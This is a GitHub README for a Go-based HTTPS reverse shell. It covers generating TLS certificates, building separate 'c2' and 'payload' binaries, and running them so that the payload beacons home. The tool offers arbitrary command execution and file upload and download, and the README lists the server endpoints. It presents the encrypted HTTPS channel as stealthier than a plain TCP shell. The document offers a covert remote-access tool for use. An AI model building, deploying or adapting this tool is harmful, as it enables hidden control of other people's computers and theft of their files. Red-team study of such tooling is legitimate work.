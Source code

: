 # https-reverse-shell-golang

A HTTPS reverse shell implemented in the Go programming language. 

## Prerequisites

* You need to have ```Golang``` installed on your system and have the variables ```$GOPATH``` and ```$GOBIN``` set.
* Install ```go-bindata``` via ```$ go get -u github.com/go-bindata/go-bindata/...``` 
(and install to bin via ```$ go install```)
* Install ```openssl``` in order to generate your cert/key pair.

## Build

In order to build, you need to create a server cert/key pair like this:

```
$ openssl genrsa -out server.key 2048
$ openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```


Put the ```server.cert``` and  ```server.key```  into the corresponding resource directories:

```
c2  
└─resources
│    server.crt
│    server.key
payload
└─resources
│    server.crt

```

Now you need to generate the resource file and build the binary:

```
$ cd c2 && go generate && go build
$ cd payload && go generate && go build
```

Eventually, you can run the binaries:

```
$ ./c2
[+] Server listening on (:4433)
```

```
$ ./payload
[+] Calling home to c2 to get cmd...
```

## Functionality

* Arbitrary command execute
* File upload
* File download

## Details

The payload calls home to the c2 server in an endless loop until it receives the "quit" command. The c2 requests a command from the user upon beacon from the payload. You can send any CLI arguments and upload/download arguments in the form of:

```CMD > upload <localFilePath>```

```CMD > download <remoteFilePath> <localFilePath>```

The c2 server implements the following endpoints:
* ```/getcmd``` - Asks the user for a command to send to the payload
* ```/cmdouput``` - Retrieves the output for the command executed on target machine through payload
* ```/upload``` - Handles upload requests
* ```/download``` - Handles download requests

The communication is encrypted via TLS. The general benefit of a HTTP/S reverse shell over a regular TCP reverse shell is that the traffic looks more legit and thus is stealthier.


## Outstanding improvements

* Implement multi-user (multiple payloads) management
* Implement change directory cmd
